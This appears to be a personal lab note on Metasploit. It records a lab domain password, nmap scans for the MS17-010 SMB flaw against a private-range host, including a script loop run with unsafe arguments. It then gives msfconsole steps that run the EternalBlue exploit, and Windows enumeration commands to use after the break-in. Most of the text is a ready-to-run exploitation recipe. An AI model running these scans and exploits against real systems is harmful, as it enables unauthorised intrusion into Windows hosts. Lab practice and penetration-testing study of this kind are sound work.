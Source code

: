 ### MetaSploit - 1

Windows Domain Server Setup:
Passwd:Vpn!123

namp: Check if the sys is vul to ms17
```
cd /usr/share/nmap/scripts
ls -lah | grep smb-
sudo nmap -sV -p 445 -O --script=smb-vuln-ms17-010.nse 10.0.2.5
```
OR
```
target=10.0.2.5
p=445          
scriptargs='smbpass=','smbdomain=mydomain.com','unsafe=1'
for script in $(ls smb* | grep -v -e brute -e flood); do echo "=== $script ==="; sudo nmap $(echo $target) -script=$script -script-args="${scriptargs}" -p $p| grep "|" ; done
```


```linux
┌──(root㉿kali)-[/home/kali]
└─# msfconsole

msf6 > search ms17
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set RHOST 10.0.2.5
msf6 > run
```




### Links:
- Exploit Eternal Blue (MS17–010) for Window 7 and higher (custom payload)
https://infosecwriteups.com/exploit-eternal-blue-ms17-010-for-window-7-and-higher-custom-payload-efd9fcc8b623



---
Cmds to check win user info:
```
net user 
net user user1
systeminfo
getuid

To get the hotfix run privi powershell:
Get-Hotfix -id KB3192137
```